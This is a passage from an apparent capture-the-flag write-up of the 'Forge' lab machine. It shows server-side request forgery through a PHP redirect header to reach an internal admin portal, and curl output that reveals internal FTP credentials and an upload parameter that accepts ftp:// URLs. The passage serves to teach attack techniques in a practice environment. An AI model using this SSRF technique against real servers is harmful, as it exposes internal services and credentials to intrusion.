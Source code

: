 We can however just curl it and retrieve what looks like the index page of `http://admin.forge.htb/`. There are two additional pages `announcements` and `upload`, which we can retrieve in the same way as before.

```
$ curl http://forge.htb/uploads/myWW9gzNuSx30Nqy6Iai
<!DOCTYPE html>
<html>
<head>
    <title>Admin Portal</title>
</head>
<body>
    <link rel="stylesheet" type="text/css" href="/static/css/main.css">
    <header>
            <nav>
                <h1 class=""><a href="/">Portal home</a></h1>
                <h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
                <h1 class="align-right"><a href="/upload">Upload image</a></h1>
            </nav>
    </header>
    <br><br><br><br>
    <br><br><br><br>
    <center><h1>Welcome Admins!</h1></center>
</body>
</html>
```

We change our location header on the webserver and send the request again.

```php
<?php

header("Location: http://admin.forge.htb/announcements");

?>
```

Retrieving the page again with curl there we get some very useful information. The ftp server seems to liste on localhost and we also get the credentials `user:heightofsecurity123!` to access it. It is furthermore stated that we can access the server with the `ftp://` wrapper and that we can use the `upload` page with the `?u=` parameter to upload.

```
$ curl http://forge.htb/uploads/p6hVww7MmSABh456huCN
<!DOCTYPE html>
<html>
<head>
    <title>Announcements</title>
</head>
<body>
    <link rel="stylesheet" type="text/css" href="/static/css/main.css">
    <link rel="stylesheet" type="text/css" href="/static/css/announcements.css">
    <header>
            <nav>
                <h1 class=""><a href="/">Portal home</a></h1>
                <h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
                <h1 class="align-right"><a href="/upload">Upload image</a></h1>
            </nav>
    </header>
    <br><br><br>
    <ul>
        <li>An internal ftp server has been setup with credentials as user:heightofsecurity123!</li>
        <li>The /upload endpoint now supports ftp, ftps, http and https protocols for uploading from url.</li>
```